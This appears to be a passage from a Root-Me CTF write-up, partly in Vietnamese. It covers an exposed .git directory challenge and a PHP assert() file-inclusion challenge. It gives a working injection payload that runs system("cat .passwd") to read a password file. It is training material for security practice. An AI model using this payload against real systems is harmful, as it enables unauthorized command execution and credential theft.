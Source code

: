 [<mark style="color:blue;">`doc`</mark>](https://levelup.gitconnected.com/exploiting-insecure-code-management-23fcd00eba60)

> [http://challenge01.root-me.org/web-serveur/ch61/.git](http://challenge01.root-me.org/web-serveur/ch61/.git)

<figure><img src="../../.gitbook/assets/image (5) (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 24.PHP - assert()

[`doc`](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert)

[doc`2`](https://hoccyber.com/khai-thac-lfi/)

**Detect** lỗi **File Inclusion -> LFI via PHP's 'assert**

Khả nghi:

```
GET /web-serveur/ch47/?page= ...
```

command:

```
' and die(system("cat .passwd")) or '
```

<figure><img src="../../.gitbook/assets/image (6) (2) (1).png" alt=""><figcaption></figcaption></figure>

